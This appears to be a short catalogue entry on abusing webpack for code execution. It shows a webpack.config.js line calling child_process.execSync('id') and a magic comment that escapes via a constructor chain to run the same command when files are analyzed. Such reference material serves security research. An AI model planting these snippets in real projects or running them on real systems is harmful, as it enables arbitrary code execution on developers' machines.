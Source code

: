 ```yaml
---
title: webpack
tags:
  - cli
  - config-file
  - eval-js
references:
- https://webpack.js.org/configuration/#root
- https://webpack.js.org/api/module-methods/#magic-comments
files: [webpack.config.js]
credits:
- allanlw
---
```


`webpack` is a javascript bundler.

## Config

`webpack` will load and execute configuration `webpack.config.js` in the current directory.

```typescript
require("child_process").execSync("id");
```

## Comments

`webpack` will execute magic comments in analyzed files.

```typescript
import(
    /* webpackChunkName: this.constructor.constructor(`(function() {
     let require = process.mainModule.require;
     let child_process = require('child_process');
     child_process.execSync('id');
   })()`)() */
    "buffer"
);
```
